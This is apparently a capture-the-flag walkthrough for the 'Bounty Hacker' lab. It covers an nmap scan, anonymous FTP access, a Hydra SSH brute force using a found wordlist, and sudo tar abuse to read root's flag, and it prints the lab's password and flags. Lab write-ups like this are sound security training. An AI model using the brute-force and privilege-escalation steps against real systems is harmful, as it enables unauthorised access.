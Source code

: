 # Bounty Hacker

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

 You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

# Find open ports on the machine

Nmap discovers several common services running on their standard ports: 21 (FTP), 22 (SSH) and 80 (HTTP).

~~~
unknown@kali:~$ nmap -sC -sV -A 10.10.207.219
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-13 09:10 CEST
Nmap scan report for 10.10.207.219
Host is up (0.084s latency).
Not shown: 970 filtered ports, 27 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.66 seconds
~~~

# Who wrote the task list? 

Let's connect as `anonymous` on the FTP service:

~~~
unknown@kali:~$ ftp 10.10.207.219
Connected to 10.10.207.219.
220 (vsFTPd 3.0.3)
Name (10.10.207.219:unknown): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (7.4185 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (30.7010 kB/s)
ftp> exit
221 Goodbye.
~~~

The task list has been written by lin:

~~~
unknown@kali:/data/tmp$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
~~~

Answer: `lin`

# What service can you bruteforce with the text file found?

Answer: `ssh`

# What is the users password? 

The other file seems to be a password file:

~~~
unknown@kali:/data/tmp$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
~~~

We can try to bruteforce lin's SSH password:

~~~
unknown@kali:/data/tmp$ hydra -l lin -P locks.txt ssh://10.10.207.219
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-13 09:13:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.207.219:22/
[22][ssh] host: 10.10.207.219   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
~~~

Lin's password is `RedDr4gonSynd1cat3`.

# user.txt

Let's connect as lin over SSH:

~~~
unknown@kali:/data/tmp$ ssh lin@10.10.207.219
The authenticity of host '10.10.207.219 (10.10.207.219)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.207.219' (ECDSA) to the list of known hosts.
lin@10.10.207.219's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
~~~

User flag: `THM{CR1M3_SyNd1C4T3}`

# root.txt

Let's check lin's privileges. Lin can run `tar` as root:

~~~
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) reveals that we can take advantage of it to read files as root.

~~~
lin@bountyhacker:~/Desktop$ LFILE=/root/root.txt
lin@bountyhacker:~/Desktop$ sudo tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
THM{80UN7Y_h4cK3r}
lin@bountyhacker:~/Desktop$ 
~~~

Root flag: `THM{80UN7Y_h4cK3r}`
